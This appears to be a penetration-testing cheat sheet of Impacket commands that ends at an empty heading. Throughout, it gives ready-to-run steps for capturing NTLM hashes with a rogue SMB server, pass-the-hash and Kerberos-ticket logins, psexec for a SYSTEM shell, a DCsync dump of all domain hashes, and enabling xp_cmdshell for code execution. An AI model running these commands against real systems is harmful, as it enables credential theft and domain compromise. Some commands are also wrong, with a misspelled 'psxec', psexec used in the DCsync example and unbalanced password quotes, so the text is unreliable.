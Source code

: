 
## Overview
---

**Impacket** is an invaluable library of python-based exploitation tools.  The library also reuses a lot of authentication methods and syntax, so in a lot of cases you can get away with simply changing the specific impacket command being ran without needing to change any parameters.

On Kali Linux, the impacket library is in your path by default and each python script is prefaced with "impacket-" for more intuitive usage.

```shell
# Example Usage of Raw Library
python3 psexec.py <domain>/<username>:'<password'@<target>

# Example Usage on Kali Linux
impacket-psexec <domain>/<username>:'<password'@<target>
```

## impacket-smbserver
---
Create a simple unauthenticated SMB server that can host files and capture the NTLM hash of visitors.

```shell
# Host Current Directory
impacket-smbserver <share_name> -smb2support .

# Host Specified Directory
impacket-smbserver <share_name> -smb2support <path_to_serve>

# Path to Share
# \\<ip_addr>\<share_name>\<hosted_files>
```

## impacket-smbclient
---
Connect to a workstation via SMB and attempt to interact with with available shares. (Requirements: Valid user credentials.)

```shell
# Smbclient via Password
impacket-smbclient <domain>/<username>:'<password'@<target>

# Smbclient via Pass-the-Hash
impacket-smbclient <domain>/<username>@<target> -hashes <ntlm>:<ntlm>

# Smbclient via Kerberos Ticket
export KRB5CCNAME=/path/to/<krb5cc_ticket>
impacket-smbclient <domain>/<username>@<target> -k -no-pass

# Common Commands             : cat, ls, cd, mkdir, rmdir
# List Available Shares       : shares
# Mount Share                 : use <share_name>
# Upload File                 : put <local_filename>
# Download File               : get <remote_filename>
# Download All Files from PWD : mget <match_mask>
# Change the User's Password  : password
# Return Host Information     : info
```

## impacket-psexec
---
Acquire a SYSTEM level shell via exploiting write privileges in the default ADMIN$ share. (Requirements: Credentials for a user with SMB write privileges to the ADMIN$ share.)

```shell
# Psexec via Password
impacket-psxec <domain>/<username>:'<password'@<target>

# Psexec via Pass-the-Hash
impacket-psexec <domain>/<username>@<target> -hashes <ntlm>:<ntlm>

# Psexec via Kerberos Ticket
export KRB5CCNAME=/path/to/<krb5cc_ticket>
impacket-psexec <domain>/<username>@<target> -k -no-pass

# Optional: add a specific command to execute (default: cmd.exe)
impacket-psxec <domain>/<username>:'<password>'@<target> '<command_to_execute>'

# Return Help                    : help
# Execute Local Commands         : !<local_command>
# Upload Files to Temp Directory : lput <local_file> Temp
```

## impacket-secretsdump
---
Perform a DCsync attack on a Domain Controller and dump all user and machine hashes within the domain. (Requirements: Domain Administrator Privileges)

```shell
# DCsync via Password
impacket-psxec <domain>/<domain_admin>:'<password>'@<target_dc> > <outfile.txt>

# DCsync via Pass-the-Hash
impacket-secretsdump <domain>/<domain_admin>@<target_dc> -hashes <ntlm>:<ntlm> > <outfile.txt>

# DCsync via Kerberos Ticket
export KRB5CCNAME=/path/to/<krb5cc_ticket>
impacket-secretsdump <domain>/<domain_admin>@<target_dc> -k -no-pass > <outfile.txt>
```

## impacket-mssqlclient
---
Connect to a MS-SQL database. (Requirements: Valid DB user credentials.)

```shell
# Connect to MS-SQL Server
impacket-mssqlclient <username>:'<password>'@<target>

# Connect to MS-SQL Server via default SA creds
impacket-mssqlclient sa:'poiuytrewq'@<target>

# Enable XP_CMDSHELL for Remote Code Exection
> EXECUTE sp_configure 'show advanced options', 1;
> RECONFIGURE;
> EXECUTE sp_configure 'xp_cmdshell', 1;
> RECONFIGURE;
> xp_cmdshell '<command>'
```

## impacket-addcomputer
---
